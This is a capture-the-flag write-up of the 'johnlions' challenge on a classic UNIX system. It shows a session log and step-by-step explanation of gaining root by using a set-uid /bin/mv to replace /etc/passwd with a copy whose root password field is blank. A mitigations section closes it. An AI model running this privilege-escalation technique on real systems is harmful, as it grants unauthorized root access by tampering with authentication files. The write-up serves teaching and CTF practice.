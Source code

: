 ## johnlions ##
Writeup by @cyphar.

### tl;dr ###
The binary `/bin/mv` was set-uid `root`, which meant that you could overwrite
files used for authentication (such as `/etc/passwd` or `/etc/shadow`) and thus
escalate to root privileges.

### Session ###
The following is the logs from a session where the above exploit was used to
read the target file (`/flag`).

```bash
$ find / -type f -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
$ cat /etc/passwd
root:x:0:1::/:
[...snip...]
ctf::7:3::/:
$ cat - > /usr/ctf/passwd
root::0:1::/:
ctf::7:3::/:
$ /bin/mv /usr/ctf/passwd /etc/passwd
mv: /etc/passwd: 644 mode y
$ cat /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ su
# cat /flag
9447{h4cking_like_its_1979}
#
```

### What just happened? ###
Here's a breakdown of the above key commands:

#### `find / -type f -user root -perm -4000 -print` ####

This command is used to find all set-uid binaries owned by `root`. cyphar then
went about reading through each one and seeing which binary (if any) was not
(on a standard system) set-uid `root`. The most likely candidates were
`/bin/mkdir`, `/bin/rmdir` and `/bin/mv`. However, on a classic UNIX system
(such as this challenge was being run on), the syscalls for creating
directories must be executed by `root` (auscompgeek actually knew this prior
to the CTF, go figure). Thus, `/bin/mv` would be our attack vector.

#### `cat - > /usr/ctf/passwd` ####

The user we were given access to had `rwx` rights to the directory `/usr/ctf/`.
Since the shell being run was the original Bourne shell (it didn't support
process substitution), in order to use `/bin/mv` to overwrite `/etc/passwd` we
would need to have a location where we could create and write to files.

The data written afterward is a modified `/etc/passwd` file, where `root`'s
password has been disabled (NOTE: the second field of the `root` line is blank,
which is interpreted by `su` as no password authentication required for the
given user).

#### `/bin/mv /usr/ctf/passwd /etc/passwd` ####

This is the exploit. Because `/bin/mv` is set-uid `root`, it can write to
`/etc/passwd` when executed by **any** user. Thus we can replace the system's
authentication files with our own, and log in as any user.

> **NOTE**: Due to the different file modes, you are asked to confirm the
> overwriting of `/etc/passwd`. You just need to provide `y` as the answer to
> continue the exploit (the full prompt doesn't appear in the above session).

#### `su` ####

Since we have overwritten `/etc/passwd`, you can log in as `root` with no
password (NOTE: the change of the prompt from `$` to `#` indicates that the
escalation to root was successful).

#### `cat /flag` ####

This just discloses the information inside the target file, revealing the flag
and completing the challenge.

### Notes ###

* Both cyphar and auscompgeek really hate `telnet` (no line editing and
  backspace doesn't work -- grrr)
* cyphar now appreciates just how much GNU has provided in terms of
  user-friendly tools and features.
* It was also possible to exploit `/usr/lib/atrun`, as
  [another team did](http://pastebin.com/raw.php?i=8jaPWTVT).

### Mitigations ###

In order to make this exploit not work, `/bin/mv` should either implement some
kind of primitive access control (like `su` or other proper set-uid `root`
programs), or have the set-uid mode bit disabled for the binary.
